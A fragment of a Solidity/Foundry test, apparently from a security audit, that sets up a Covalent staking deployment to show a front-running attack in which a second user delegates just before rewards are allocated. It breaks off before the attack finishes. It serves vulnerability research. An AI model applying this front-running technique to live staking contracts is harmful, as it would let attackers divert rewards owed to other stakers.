 ```solidity
    os.initialize(address(cqt), dCoolDown, vCoolDown, maxCapM, vMaxStake);
    os.setStakingManagerAddress(address(this));

  }

  function testFrontrunRewards() public {

    // Initialize a default deployment.
    (CovalentQueryTokenFaucet cqt, OperationalStaking os) = _prepareDeployment();

    // Apply the default `commisionRate`. 
    uint128 commisionRate = uint128(10 ** (cqt.decimals() - 1) /* oneToken.div(10) */);

    // First, let's register `_ALICE` as a `Validator`:
    uint256 validatorId = os.addValidator(_ALICE, commisionRate);

    // Determine how much stake is needed.
    uint128 validatorEnableMinStake = os.validatorEnableMinStake();

    // Mint `_ALICE` what's needed.
    cqt.transfer(_ALICE, validatorEnableMinStake);

    // `_ALICE` configures their stake. 
    vm.startPrank(_ALICE);
      // Approve funds.
      cqt.approve(address(os), type(uint256).max);
      // Initialize staking.
      os.stake(uint128(validatorId), validatorEnableMinStake);
    vm.stopPrank();

    // Let's enable the new `Validator`.
    os.enableValidator(uint128(validatorId));

    // Imagine the `Validator` accrues some amount. Here we'll
    // just use the `validatorEnableMinStake`, since this is
    // a contextually-relevant magnitude to operate in.
    uint128 rewardTokenAmount = validatorEnableMinStake;

    // Deposit some reward tokens.
    cqt.approve(address(os), rewardTokenAmount);
    os.depositRewardTokens(rewardTokenAmount);

    // Let's allocate the reward tokens to `_ALICE`, as our
    // only `Validator`:
    uint128[] memory ids = new uint128[](1);
    ids[0] = uint128(validatorId) /* `_ALICE` */;

    uint128[] memory amounts = new uint128[](1);
    amounts[0] = rewardTokenAmount;

    // Define whether we should front run the rewards process.
    bool _SHOULD_FRONT_RUN = true;

    // If we plan to front run the rewards process, let's enter
    // as Bob.
    if (_SHOULD_FRONT_RUN) {

      // Bob will delegate the maximum amount to `_ALICE`'s `Validator`.
      uint128 amountToDelegate = 70000000000000000000000 /* empirical_max_cap */;

      // Prepare these tokens for `_BOB`.
      cqt.transfer(_BOB, amountToDelegate);

```